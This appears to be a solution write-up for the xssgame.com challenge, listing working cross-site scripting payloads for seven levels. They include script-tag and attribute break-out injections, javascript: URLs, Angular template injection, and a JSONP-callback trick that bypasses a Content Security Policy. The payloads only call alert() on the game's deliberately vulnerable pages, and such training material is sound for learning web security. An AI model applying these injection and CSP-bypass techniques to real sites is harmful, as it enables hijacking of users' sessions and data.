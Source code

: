 # [xssgame.com](http://xssgame.com/)

## Level 1

The input is embedded as-is into the page that'll load next.

```
<script>alert()</script>
```

## Level 2

The input becomes the argument of `onload="startTimer(...);"` like this: `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call which ends up with "ending" of the original function call.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead and supply input for a working `src` attribute, or try to close of the `img` tag.

## Level 4

There's an intermediate navigation with sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```

## Level 6

Simply posting the form doesn't inject anything useful into the response HTML.
Issuing a GET request like `/?query={{alert}}` results in the modification of the form's `action` parameter, it'll end up like this: `<form action="/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}"`.
The leading `{{` is dropped. Replacing it with an HTML entity works, however `&#123;` doesn't, only `&lcub;`.

```
http://www.xssgame.com/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}
```

## Level 7

Sending a GET request to `http://www.xssgame.com/f/wmOM2q5NJnZS/?menu=...` by supplying the `menu` parameter a Base64 payload indirectly injects the following into the page.

```
<script src="jsonp?menu=' + encodeURIComponent(menu) + '">
```

Using `btoa('<script>alert();</script>')` as the payload doesn't quite work though, we get the following error.

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src http://www.xssgame.com/f/wmOM2q5NJnZS/ http://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-/NOakGMgxH1rSep6q9+wRmM98LxyJLGvY2s9h3kZOjY='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

The error is due to the CSP set by the server-side. After the "trick" payload the DOM contains the following.

```
<h1>Error, no such menu: <script>alert();</script></h1>
```

Since the response body of the [JSONP](https://en.wikipedia.org/wiki/JSONP) call is `callback({"title":"Error, no such menu: <script>alert();</script>"})`.
This will execute the `callback(...)` function, which contains this `if (data.title) document.write('<h1>' + data.title + '</h1>');`, essentially injecting whatever in the `data.title` into the page itself.

JSONP is [exploitable if callback names supplied to such an endpoint are unsanitized](https://en.wikipedia.org/wiki/JSONP#Callback_name_manipulation_and_reflected_file_download_attack), meaning we can do this.

```
btoa('<script src="jsonp?callback=alert"></script>')
```

This ends up in the DOM as follows.

```
<h1>Error, no such menu: <script src="jsonp?callback=alert"></script></h1>
```

Which doesn't trigger the CSP, but triggers a GET request with the following response body.

```
alert({"title":"Welcome to my Website!","pictures":["const.png"]})
```

